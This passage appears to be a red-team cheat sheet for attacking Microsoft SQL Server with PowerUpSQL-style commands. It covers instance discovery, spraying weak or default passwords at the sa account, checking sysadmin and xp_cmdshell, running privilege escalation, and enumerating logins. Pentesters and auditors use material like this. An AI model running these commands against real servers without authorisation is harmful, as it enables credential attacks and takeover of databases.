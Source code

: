````
Get-SQLInstanceLocal 
```

### Initial foothold
- Unauthenticated / Local user / Domain user --> SQL Login
#### Check for weak passwords or default credentials
- Might want to check for default applications with backend SQL Server express for default instances/credentials those applications use.
- Never got it to work as described in the blog: https://h4ms1k.github.io/Red_Team_MSSQL_Server/#
```
Get-SQLInstanceScanUDP | Invoke-SQLAuditWeakLoginPw -Verbose
spray weak credentials against the sa account
```
 
#### Check accessibility to SQL servers with current credentials
```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded –Verbose
```
 
#### Check accessibility with other user account
- Might need runas?
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded –Verbose -Username <USERNAME> -Password <PASSWORD>
```

#### Gather information
- If connection succes! Connect to the DB with heidiSQL and look in it!
```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```
 
### Initial Recon
#### Check if sysadmin query
```
SELECT IS_SRVROLEMEMBER('sysadmin')
```

#### Check for xp_cmdshell
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

### Privilege Escalation to sysadmin
#### Audit for issues
```
Invoke-SQLAudit -Verbose -Instance <SQL INSTANCE>
```
 
#### Try to excalate privileges
```
Invoke-SQLEscalatePriv
```
 
### SQL Server enumerate login
- Try weak passwords against the enumerated users!
#### Blind SQL Server login enum
```
SELECT name FROM sys.syslogins;
SELECT name FROM sys.server_principals;
 
SELECT SUSER_NAME(1)
SELECT SUSER_NAME(2)
SELECT SUSER_NAME(3)

````